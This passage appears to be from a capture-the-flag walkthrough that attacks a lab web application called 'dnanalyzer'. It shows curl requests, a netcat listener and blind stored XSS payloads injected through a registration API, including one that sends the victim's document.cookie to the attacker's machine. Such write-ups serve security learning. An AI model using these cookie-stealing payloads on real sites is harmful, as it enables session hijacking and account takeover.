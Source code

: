 The portal folder looks interesting, which provides a html page with a login form. However, providing our newly created user didn't get us inside. Maybe this is an admin portal?

```
root@kali:~# curl http://192.168.0.36/dnanalyzer/portal/
<form action="" method="POST"><input name="user" type="text" placeholder="username" /></br><input name="pass" type="password" placeholder="password" /></br><input name="login" type="submit" value="Login" /></form>
root@kali:~# 
```

### Out-of-bound XSS

If this is an admin portal and an administrator is viewing user information, maybe we can trigger an XSS. Since we are very much blind here, we will send a simple out-of-bounds payload, loading an image from our attacking machine (192.168.0.34). Be sure to open a listener on the attacking machine first `nc -nlvp 80`.

```
root@kali:~# curl -i -d "username=test2&password=test2&dna_string=<img src='http://192.168.0.34/x'>" http://192.168.0.36/dnanalyzer/api/register.php
HTTP/1.1 200 OK
Date: Wed, 16 Sep 2020 21:36:13 GMT
Server: Apache/2.4.38 (Debian)
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST
Access-Control-Max-Age: 3600
Access-Control-Allow-Headers: Content-Type, Access-Control-Allow-Headers, Authorization, X-Requested-With
Content-Length: 47
Content-Type: application/json; charset=UTF-8

{"message":"User was successfully registered."}
```

After some minutes we can see a request made to our machine:
```
root@kali:~# nc -nlvp 80
GET /x HTTP/1.1
Host: 192.168.0.34
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/dnanalyzer/portal/index.php
Connection: keep-alive
```

Now, let's try to check if there are any cookies by sending document.cookie back to our server.

```
root@kali:~# curl -i -d "username=test4&password=test4&dna_string=<svg/onload=\"var x=document.createElement('img');x.src='http://192.168.0.34/'%2Bdocument.cookie;document.body.appendChild(x);\">" http://192.168.0.36/dnanalyzer/api/register.php
```
